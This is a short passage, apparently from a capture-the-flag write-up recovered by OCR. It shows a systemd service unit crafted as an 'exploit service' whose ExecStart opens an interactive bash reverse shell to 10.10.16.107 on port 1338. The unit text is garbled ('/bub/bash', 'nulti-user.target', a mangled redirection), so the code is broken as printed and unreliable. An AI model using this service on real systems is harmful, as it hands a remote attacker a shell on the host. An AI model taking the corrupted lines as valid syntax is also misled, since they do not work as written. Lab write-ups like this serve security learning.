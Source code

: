![](./IMG/33.png)
- So I tried to create exploit service
```
[Service]
Type=oneshot
ExecStart=/bin/bash -c "/bub/bash -i >& /dev/tcp/10.10.16.107/1338 ->&1 2<&1"
[Install]
WantedBy=nulti-user.target
```
![](./IMG/34.png)
